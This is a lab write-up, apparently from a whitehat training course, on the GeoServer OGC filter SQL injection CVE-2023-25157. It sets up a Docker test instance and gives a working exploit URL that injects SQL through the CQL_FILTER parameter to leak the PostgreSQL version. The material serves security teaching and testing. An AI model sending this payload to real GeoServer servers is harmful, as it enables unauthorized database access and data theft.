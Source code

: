 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

@ 화이트햇 스쿨 3기(35반) -  손예은

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## Vulnerable environment

Execute following command to start a GeoServer instance 2.22.1:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
